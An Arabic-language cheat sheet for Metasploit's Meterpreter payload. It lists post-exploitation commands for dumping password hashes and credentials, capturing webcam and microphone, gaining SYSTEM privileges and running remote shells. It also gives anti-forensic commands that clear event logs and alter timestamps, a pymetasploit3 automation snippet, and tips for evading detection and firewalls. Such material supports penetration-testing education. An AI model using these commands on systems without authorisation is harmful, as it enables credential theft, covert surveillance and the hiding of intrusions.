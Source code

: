 


            _____________________________  
                 |[METERPREETER] >_             |  
         |=============================|  
         |  [+] Session Opened          |  
         |  [+] Privilege: System       |  
         |  [+] Target: 192.168.1.5     |  
         |                              |  
         |  [COMMANDS]                  |  
         |  - download <file>           |  
         |  - webcam_stream             |  
         |  - keyscan_start             |  
         |                              |  
         |  [WARNING]                   |  
         |  Ethical Use Only!           |  
         |______________________________|  
               / \__                    
              (    @\___               
              /         O\              
             /   (_____/                 
            /_____/   U                  




مترپريتر (Meterpreter) هو أداة متقدمة للإختراق في مجال الأمن السيبراني. إليك نظرة مختصرة عليه:

مترپريتر هو "حمولة" (payload) متطورة في إطار برنامج Metasploit، وهو أحد أشهر منصات اختبار الاختراق المفتوحة المصدر. يتميز مترپريتر بأنه:

يعمل بالكامل في الذاكرة دون كتابة أي شيء على القرص الصلب (memory-only)
يوفر واجهة تفاعلية للتحكم في الأنظمة المستهدفة بعد الاختراق
يدعم عمليات تصعيد الصلاحيات والتنقل داخل الشبكات
يسمح بتحميل وتنزيل الملفات من الأجهزة المستهدفة
يوفر آليات للتخفي من أنظمة كشف التسلل والفيروسات
يستخدم مترپريتر عادة في عمليات اختبار الاختراق القانونية (Penetration Testing) لتقييم مستوى أمان الأنظمة والشبكات وتحديد نقاط الضعف فيها.

من أهم خصائصه أنه قادر على الاتصال بأنظمة التشغيل المختلفة مثل Windows وLinux وAndroid وغيرها.

مر Meterpreter الأساسية
إدارة الجلسة
help                # عرض المساعدة

background          # تشغيل الجلسة في الخلفية

sessions -i [ID]    # التبديل بين الجلسات

exit                # إنهاء الجلسة

استكشاف النظام
getuid              # عرض المستخدم الحالي

sysinfo             # عرض معلومات النظام

ipconfig/ifconfig   # عرض معلومات الشبكة

ps                  # عرض العمليات النشطة
التنقل في نظام الملفات
pwd                 # عرض المجلد الحالي

cd [المسار]          # تغيير المجلد

ls                  # عرض محتويات المجلد

cat [الملف]          # عرض محتوى ملف

download [المصدر] [الوجهة] # تنزيل ملف من الهدف

upload [المصدر] [الوجهة]   # رفع ملف إلى الهدف

تصعيد الامتيازات
getsystem           # محاولة تصعيد الامتيازات إلى SYSTEM/root

getprivs            # الحصول على جميع الامتيازات الممكنة

جمع المعلومات


hashdump            # استخراج جميع هاشات كلمات المرور (Windows)

lsa_dump_sam        # استخراج هاشات SAM (Windows)

run post/windows/gather/credential_collector  # جمع بيانات الاعتماد

run post/linux/gather/hashdump               # استخراج الهاشات على Linux

التقاط الشاشة والصوت
screenshot          # التقاط صورة للشاشة

record_mic -d [المدة] # تسجيل من الميكروفون

webcam_list         # عرض قائمة كاميرات الويب المتاحة

webcam_snap         # التقاط صورة من كاميرا الويب

التحكم في النظام


shell               # فتح shell تفاعلي

execute -f [الأمر]   # تنفيذ أمر على النظام المستهدف


kill [PID]          # إنهاء عملية معينة

reboot / shutdown   # إعادة تشغيل أو إيقاف تشغيل النظام

تقنيات التخفي
migrate [PID]       # نقل Meterpreter إلى عملية أخرى

clearev             # محو سجلات الأحداث في Windows

timestomp [الملف]    # تعديل الطوابع الزمنية للملفات

استخدام Meterpreter مع Python
يمكنك أتمتة مهام Meterpreter باستخدام Python من خلال:
pythonimport pymetasploit3.msfrpc as msfrpc


# إنشاء اتصال بخادم MSFRPC
client = msfrpc.MsfRpcClient('password', port=55553)


# العمل مع جلسات Meterpreter
sessions = client.sessions.list
session = client.sessions.session('1')

# تنفيذ الأوامر
output = session.run_shell_cmd('whoami')
print(output)
نصائح متقدمة

انتقل دائمًا إلى عملية أكثر استقراراً: استخدم ps للعثور على عملية مستقرة وانتقل إليها باستخدام migrate [PID]
استخدم التشغيل في الخلفية: عند الحاجة للعمل مع عدة أهداف، استخدم background للتبديل بين الجلسات
قم بإنشاء روتات: استخدم وحدة autoroute لإعداد التوجيه عبر النظام المستهدف للوصول إلى الشبكات الداخلية
استخدم المنافذ المألوفة: قم بإعداد المستمعات على منافذ مثل 80 و 443 للتغلب على جدران الحماية
تجنب الكشف: قلل من النشاط والضوضاء على الشبكة، واستخدم تقنيات التواصل المتقطع مثل set SessionCommunicationTimeout



